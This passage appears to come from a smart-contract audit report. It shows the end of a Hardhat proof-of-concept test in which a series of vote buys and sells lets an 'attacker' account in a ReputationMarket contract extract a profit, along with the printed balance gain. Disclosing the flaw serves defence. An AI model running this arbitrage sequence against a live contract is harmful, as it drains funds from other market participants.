 ```javascript
      // (12) user 0 (userA) sells negative votes: amount=57, funds=4.782e16
      await userA.sellVotes({
        isPositive: false,
        sellVotes: 57n,
        minSellPrice: 0n,
      });

      // (13) user 1 (userB) sells negative votes: amount=97, funds=7.586e16
      await userB.sellVotes({
        isPositive: false,
        sellVotes: 97n,
        minSellPrice: 0n,
      });

      // (14) user 1 (userB) buys positive votes: amount=514, funds=5.059e18
      await userB.buyVotes({
        isPositive: true,
        votesToBuy: 514n,
        buyAmount: 5059477828343247676n,
        minVotesToBuy: 514n,
      });

      // (15) user 1 (userB) sells positive votes: amount=2714, funds=2.082e19
      await userB.sellVotes({
        isPositive: true,
        sellVotes: 2714n,
        minSellPrice: 0n,
      });

      const finalBalanceB = await ethers.provider.getBalance(await userB.signer.getAddress());

      // ---- Before/After Assertions ----
      console.log("userB balance before: ", initialBalanceB);
      console.log("userB balance after : ", finalBalanceB);

      expect(finalBalanceB).to.be.gt(initialBalanceB, 'User B’s balance should have changed');

    });
  });

```

output:
```text
ReputationMarket - LMSR Arbitrage PoC
userB balance before:  200000000000000000000000n
userB balance after :  200005143574131685336412n
```

the attacker balance increased even though attacker paid for fees.


